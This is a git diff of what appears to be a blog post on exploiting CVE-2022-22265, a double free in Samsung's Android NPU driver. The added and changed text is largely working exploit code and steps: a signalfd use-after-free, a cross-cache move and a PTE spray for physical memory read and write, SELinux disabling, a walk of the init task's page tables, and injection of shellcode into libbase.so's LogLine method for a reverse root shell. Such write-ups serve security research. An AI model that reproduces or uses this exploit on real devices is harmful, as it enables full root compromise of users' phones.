

CVE-2022-22265 finish commit

diff --git a/all_collections/_posts/2024-08-15-CVE-2022-22265-Samsung-npu-driver.md b/all_collections/_posts/2024-08-15-CVE-2022-22265-Samsung-npu-driver.md
@@ -8,7 +8,7 @@ thumbnail: "assets/images/thumb_4.png"
 
 ## Introduction
 
-I wanted to do a bug from Samsung and I chose this [https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-22265.html](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-22265.html). It is well explained, when you read it, you'll know wich involves a double free. Finally I chose another more generic strategy that I am going to explain next. Linux kernel 5.10.177.
+I wanted to do a bug from Samsung and I chose this [https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-22265.html](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-22265.html). It is well explained, when you read it, you'll know which involves a double free. Finally I chose another more generic strategy that I am going to explain next. Linux kernel 5.10.177.
 
 ## Warning
 
@@ -18,18 +18,18 @@ Getting context from npu driver..
 
 The NPU driver in this version is restricted from shell. If you want to use this exploit, you'll need to adapt it to an unstrusted app.
 
-**/sys/fs/selinux/policy** 
+`/sys/fs/selinux/policy` 
 
 ![policy_shell](/assets/images/policy_shell.png)
 ![policy_unstrusted_app](/assets/images/policy_untrusted_app.png)
 
-Also, this NPU driver version had the bug patched (Samsung A25), so I modified the communication with the firmware in **npu-interface.c** (because the whole analysis it was unnecessary, I did just enough to avoid crashing, each firmware includes its own extra check code, I don't want to do hard work for nothing, thanks). If you want help with reversing the firmware you could look at [this](https://blog.impalabs.com/2103_reversing-samsung-npu.html) and [this](https://blog.impalabs.com/2110_exploiting-samsung-npu.html). You'll need to adapt it as well.
+Also, this NPU driver version had the bug patched (Samsung A25), so I modified the communication with the firmware in `npu-interface.c` (because the whole analysis it was unnecessary, I did just enough to avoid crashing, each firmware includes its own extra check code, I don't want to do hard work for nothing, thanks). If you want help with reversing the firmware you could look at [this](https://blog.impalabs.com/2103_reversing-samsung-npu.html) and [this](https://blog.impalabs.com/2110_exploiting-samsung-npu.html). You'll need to adapt it as well.
 
 ![npu_patched](/assets/images/npu_patched.png)
 
 ## The bug
 
-The first free comes from ioctl VS4L_VERTEXIOC_S_FORMAT wich finally calls to vb_queue_s_format that does this.
+The first free comes from ioctl `VS4L_VERTEXIOC_S_FORMAT` which finally calls to vb_queue_s_format that does this.
 
 ```C
 int vb_queue_s_format(struct vb_queue *q, struct vs4l_format_list *flist)
@@ -63,7 +63,7 @@ p_err:
 	return ret;
 ```
 
-If it has an invalid format, it will perform the first free. The second free can be triggered by calling ioctl VS4L_VERTEXIOC_STREAM_OFF wich calls vb_queue_stop to clean up the queue related data structures. vb_queue_stop calls kfree(q->format.formats) on the previously freed q->format.formats as a part of the clean-up process. To see what happens when we need to perform the second free, refer to the following code.
+If it has an invalid format, it will perform the first free. The second free can be triggered by calling ioctl `VS4L_VERTEXIOC_STREAM_OFF` which calls vb_queue_stop to clean up the queue related data structures. vb_queue_stop calls kfree(q->format.formats) on the previously freed q->format.formats as a part of the clean-up process. To see what happens when we need to perform the second free, refer to the following code.
 
 ```C
 static int npu_vertex_streamoff(struct file *file)
@@ -122,7 +122,7 @@ if (!test_bit(VB_QUEUE_STATE_START, &otq->state) && test_bit(VB_QUEUE_STATE_FORM
 }
 ```
 
-We need set the bits **NPU_VERTEX_GRAPH**, **VB_QUEUE_STATE_FORMAT**, **NPU_VERTEX_FORMAT** and **NPU_VERTEX_STREAMON**. However, when we trigger the first free, **NPU_VERTEX_GRAPH** gets unset :(
+We need set the bits `NPU_VERTEX_GRAPH`, `VB_QUEUE_STATE_FORMAT`, `NPU_VERTEX_FORMAT` and `NPU_VERTEX_STREAMON`. However, when we trigger the first free, `NPU_VERTEX_GRAPH` gets unset :(
 
 ```C
 static int npu_vertex_s_format(struct file *file, struct vs4l_format_list *flist)
@@ -160,21 +160,21 @@ p_err:
 Then the strategy to leverage both kfree is; realize that vb_queue could be as input or output.
 
 * ioctl graph
-* ioctl format (set VB_QUEUE_STATE_FORMAT as input)
+* ioctl format (set `VB_QUEUE_STATE_FORMAT` as input)
 * ioctl graph 
 * ioctl format (first input kfree)
-* ioctl graph (set NPU_VERTEX_GRAPH)
-* ioctl format (set NPU_VERTEX_FORMAT as output)
-* ioctl streamon (set NPU_VERTEX_STREAMON)
+* ioctl graph (set `NPU_VERTEX_GRAPH`)
+* ioctl format (set `NPU_VERTEX_FORMAT` as output)
+* ioctl streamon (set `NPU_VERTEX_STREAMON`)
 * ioctl streamoff (double input kfree)
 
 ## Strategy
 
-The signalfd object will occupy the kernel's freed object of size 128 (on Android kmalloc starts at size 128). Next, the exploit frees the object again using the ioctl command VS4L_VERTEXIOC_STREAM_OFF and reuses the freed kernel object with a set of pipe_buffer structures using fcntl(fd, F_SETPIPE_SZ, size), similar to the first strategy. This is done to locate the signalfd object and perform cross-cache operations later, by closing the pipe_buffer object (located as well) and emptying the page of the signalfd object. After this, I perform a PTE spray to match the signalfd UAF and manage the page. Once this is done, signalfd has limitations (I'll explain later), so I migrate to a virtual memory area to manage the page (full phys r/w). Next, I locate the kernel base to disable SELinux and access init_task, finding current->mm->pgd to perform an MMU walk, and set the libbase.so page with permissions to inject shellcode over LogLine method (within the LogMessage object), wich will be executed by the init process.
+The signalfd object will occupy the kernel's freed object of size 128 (on Android kmalloc starts at size 128). Next, the exploit frees the object again using the ioctl command `VS4L_VERTEXIOC_STREAM_OFF` and reuses the freed kernel object with a set of pipe_buffer structures using fcntl(fd, F_SETPIPE_SZ, size), similar to the first strategy. This is done to locate the signalfd object and perform cross-cache operations later, by closing the pipe_buffer object (located as well) and emptying the page of the signalfd object. After this, I perform a PTE spray to match the signalfd UAF and manage the page. Once this is done, signalfd has limitations (I'll explain later), so I migrate to a virtual memory area to manage the page (full phys r/w). Next, I locate the kernel base to disable SELinux and access init_task, finding current->mm->pgd to perform an MMU walk, and set the libbase.so page with permissions to inject shellcode over LogLine method (within the LogMessage object), which will be executed by the init process.
 
 ## signalfd as a UAF object
 
-I chose the signalfd object wich is allocated from kmalloc-128 to overwrite the first freed object. It will be useful for managing a victim page table entry (PTE). However, it has limitations, the write operation will receive an OR of 0x40100. Nevertheless, it will be possible to search for a valid page table within a user virtual memory area to achieve full management of a PTE.
+I chose the signalfd object which is allocated from kmalloc-128 to overwrite the first freed object. It will be useful for managing a victim page table entry (PTE). However, it has limitations, the write operation will receive an OR of 0x40100. Nevertheless, it will be possible to search for a valid page table within a user virtual memory area to achieve full management of a PTE.
 
 ```
 static int do_signalfd4(int ufd, sigset_t *mask, int flags)
@@ -227,6 +227,8 @@ static int do_signalfd4(int ufd, sigset_t *mask, int flags)
 	return ufd;
 }
 ```
+
+![uaf_1](/assets/images/uaf_1.png)
 
 ## Spray pipe_buffer to locate signalfd
 
@@ -290,6 +292,8 @@ for (uint32_t j = 0; j < MAX_SIGNAL; j++) {
 	bzero(buffer, 72);
 }
 ```
+
+![uaf_2](/assets/images/uaf_2.png)
 
 ## Cross cache
 
@@ -394,7 +398,7 @@ for (i = 0; i < MAX_SIGNAL; i++) {
 }
 ```
 
-## Spray PTE
+## Spray PTE (Page Table Entry)
 
 If we read [this](https://offlinemark.com/demand-paging/) interesting article, we realize that we need to call mmap first and after access to the pages. We are going to alloc 32 page tables (a page table 512 * 4096 = 2MB).
 
@@ -422,7 +426,11 @@ for (uint32_t i = 0; i < NUM_TABLE; i++) {
 }
 ```
 
-We already have a signalfd object managing a PTE (phys r/w) with limitations, and here we find the virtual memory area used.
+We already have a signalfd object managing a PTE (phys r/w) with limitations.
+
+![uaf_3](/assets/images/uaf_3.png)
+
+Here we'll search the virtual memory area used.
 
 ```C
 int32_t found = 0;
@@ -453,7 +461,7 @@ for (int i = 0; i < NUM_TABLE; i++) {
 
 ## Migrate to a vma
 
-We'll also help ourselves by mapping new table pages wich they'll be valid also to manage the TLB (MAP_POPULATE to force page fault and assign the PTEs). 
+We'll also help ourselves by mapping new table pages which they'll be valid also to manage the TLB (MAP_POPULATE to force page fault and assign the PTEs). 
 
 ```C
 /* buffer to manage tlb */
@@ -498,6 +506,8 @@ while (!found && (((leak | 0x40100) & 0xfffffff43) < end)) {
 	signalfd(fd_cross[fd_idx], &mask, 0);
 }
 ```
+
+![migrate](/assets/images/migrate.png)
 
 Once found, I don't want to use signalfd anymore. Then, we migrate to another user virtual memory area and next, we'll self-point the page table with the first PTE and search in the next PTE to use it for full phys r/w.
 
@@ -618,6 +628,43 @@ void replace_tlb(void) {
 	}
 }
 ```
+These are the functions to manage phys r/w.
+
+```C
+uint64_t read64(uint64_t addr) {
+
+	uint32_t off = addr & 0xfff;
+	
+	/* replace tlb cache */
+	replace_tlb();
+
+	uint64_t pte = ((virt_to_phys(addr) >> 12) << 12) | 0xe8000000000f43;
+	*(uint64_t *) (victim + offset_pgt) = pte;
+	
+	/* replace tlb cache */
+	replace_tlb();
+	
+	uint64_t data = *(uint64_t *) (page + off);
+	
+	return data;
+}
+
+void write64(uint64_t addr, uint64_t data) {
+	
+	uint32_t off = addr & 0xfff;
+	
+	/* replace tlb cache */
+	replace_tlb();
+	
+	uint64_t pte = ((virt_to_phys(addr) >> 12) << 12) | 0xe8000000000f43;
+	*(uint64_t *) (victim + offset_pgt) = pte;
+	
+	/* replace tlb cache */
+	replace_tlb();
+	
+	*(uint64_t *) (page + off) = data;
+}
+```
 
 ## Disable selinux
 
@@ -658,12 +705,88 @@ If it were protected, you could look at [this](https://github.com/yanglingxi1993
 
 ## Inject code into libbase.so
 
-[address_functions](https://gist.github.com/soez/011cac41aee9d06a58b5095c1d288e1c)
-[shellcode](https://gist.github.com/soez/bbbd136c3c138fcecc2add30d49adac1)
+To see where I could inject code, because the kernel is protected by the hypervisor, I thought in init (user space root parent process). I ran `ldd /init` . In the list of libs, I started with the first one to check what it exported: `objdump -T lib.so`, and when I saw the symbol LogMessage in `libbase.so`, I went to IDA to check the refs in init, and there were 1840, great. Next, I realized that was the log from dmesg, nice hehe.
+
+First: As you can see in the picture, there are two types of mapping, vmalloc area and linear memory. virt_to_phys and phys_to_virt is easy to get from linear mapping, you can look at [this](https://gist.github.com/soez/011cac41aee9d06a58b5095c1d288e1c) functions. Virtual kernel image address from vmalloc area has an identical phys map to linear mapping, so virt_to_phys and phys_to_virt is also possible, everything else from vmalloc area is not possible to calculate. You have a good explanation [here](https://wenboshen.org/posts/2018-09-09-page-table) (old kernel mappings was exchanged).
 
 ![mapping](/assets/images/Mapping.png)
 
-This part will have a good explanation...
+And how do we inject code? To inject code into libbase.so we map it with the MAP_SHARED flag and we look for the PTE logline method. 
+
+```C
+/* mmap libbase.so for injecting code */
+char *libbase = mmap((void *) NULL, st.st_size, PROT_READ, MAP_SHARED|MAP_POPULATE, fd_libbase, 0);
+
+...
+
+/* search logline function */
+char *off = memmem(libbase, st.st_size, logline, 576);
+```
+
+To achieve this we have to find current->mm->pgd and perform a MMU walk, this is in heap and heap is linear mapping, we can do virt_to_phys to take advantage of our r/w phys. Then we search our current process to going through init_task until we find it. Next, is to put with write permissions on the PTE logline method and inject this [shellcode](https://gist.github.com/soez/bbbd136c3c138fcecc2add30d49adac1).
+
+```C
+char comm[16];
+uint64_t task = 0;
+uint64_t ptask = init_task;
+/* search current task */
+while (task != init_task) {
+
+	/* replace tlb cache */
+	replace_tlb();
+
+	task = read64(ptask + OFFSET_TASKS) - OFFSET_TASKS;
+	
+	*(uint64_t *)(comm) = read64(task + OFFSET_COMM);
+	*(uint64_t *)(comm + 8) = read64(task + OFFSET_COMM + 8);
+	
+	printf("%016lx -> %s\n", task, comm);
+	
+	if (!strncmp(comm, "exp1337", 7)) {
+		break;
+	}
+	
+	ptask = task;
+}
+
+...
+
+/* mmu walk */
+uint64_t mm = read64(task + OFFSET_MM);
+uint64_t pgd = read64(mm + OFFSET_PGD);
+
+...
+
+uint32_t offset_logline = (uint64_t) off & 0xfff;
+uint64_t offset_pte = get_directory((uint64_t) off >> (12 + 9 * 0));
+uint64_t offset_pmd = get_directory((uint64_t) off >> (12 + 9 * 1));
+uint64_t offset_pud = get_directory((uint64_t) off >> (12 + 9 * 2));
+
+...
+
+uint64_t pud = read64(pgd + offset_pud * 8);
+uint64_t pmd = read64(phys_to_virt(((pud >> 12) << 12) & 0xffffffffff, true) + offset_pmd * 8);
+uint64_t pte_logline = read64(phys_to_virt(((pmd >> 12) << 12) & 0xffffffffff, true) + offset_pte * 8);
+
+/* replace tlb cache */
+replace_tlb();
+
+/* set the pte with permissions to inject code */
+*(uint64_t *) (victim + offset_pgt) = (((pte_logline >> 12) << 12) & 0xffffffffff) | 0xe8000000000f43;
+
+/* replace tlb cache */
+replace_tlb();
+
+/* inject code */
+memcpy(page + offset_logline, shellcode, 287);
+```
+
+After achieving LPE we can restaure it.
+
+```C
+/* restaure code */
+memcpy(page + offset_logline, logline, 287);
+```
 
 ## Trigger and getting reverse root shell
 
@@ -693,6 +816,12 @@ sleep(3);
 
 ## Improvements
 
+* I would like to replace signalfd with another structure that doesn't have limitations. This way, the exploit would be much faster and more reliable. [Yudai Fujiwara](https://twitter.com/ptrYudai) has created a plugin named [MALTIES](https://codeblue.jp/2023/result/pdf/cb23-deep-kernel-treasure-hunt-finding-exploitable-structures-in-the-linux-kernel-by-yudai-fujiwara.pdf) that can be used to find them.
+* I would like to improve the cross-cache, having a debugger and if I have time, the exploit would be also more reliable.
+* Because the PGD is protected by the hypervisor, you could either play with the PMD level to do [this](https://www.coresecurity.com/core-labs/articles/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-2-windows) (cool) or to do [this](https://conference.hitb.org/hitbsecconf2018ams/materials/D1T2%20-%20Yong%20Wang%20&%20Yang%20Song%20-%20Rooting%20Android%208%20with%20a%20Kernel%20Space%20Mirroring%20Attack.pdf): space-mirror attack consists of just setting read/write permissions and changing the descriptor from table to block to stop the MMU (PMD would end in 41).
+
+![ksma](/assets/images/ksma.jpg)
+
 ## References
 
 [https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-22265.html](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-22265.html)  
@@ -705,5 +834,7 @@ sleep(3);
 [https://labs.taszk.io/articles/post/bug_collision_in_samsungs_npu_driver/](https://labs.taszk.io/articles/post/bug_collision_in_samsungs_npu_driver/)  
 [https://blog.impalabs.com/2103_reversing-samsung-npu.html](https://blog.impalabs.com/2103_reversing-samsung-npu.html)  
 [https://blog.impalabs.com/2110_exploiting-samsung-npu.html](https://blog.impalabs.com/2110_exploiting-samsung-npu.html)  
+[https://wenboshen.org/posts/2018-09-09-page-table](https://wenboshen.org/posts/2018-09-09-page-table)  
 [https://www.coresecurity.com/core-labs/articles/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-2-windows](https://www.coresecurity.com/core-labs/articles/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-2-windows)  
 [https://conference.hitb.org/hitbsecconf2018ams/materials/D1T2%20-%20Yong%20Wang%20&%20Yang%20Song%20-%20Rooting%20Android%208%20with%20a%20Kernel%20Space%20Mirroring%20Attack.pdf](https://conference.hitb.org/hitbsecconf2018ams/materials/D1T2%20-%20Yong%20Wang%20&%20Yang%20Song%20-%20Rooting%20Android%208%20with%20a%20Kernel%20Space%20Mirroring%20Attack.pdf)  
+[https://codeblue.jp/2023/result/pdf/cb23-deep-kernel-treasure-hunt-finding-exploitable-structures-in-the-linux-kernel-by-yudai-fujiwara.pdf](https://codeblue.jp/2023/result/pdf/cb23-deep-kernel-treasure-hunt-finding-exploitable-structures-in-the-linux-kernel-by-yudai-fujiwara.pdf)  
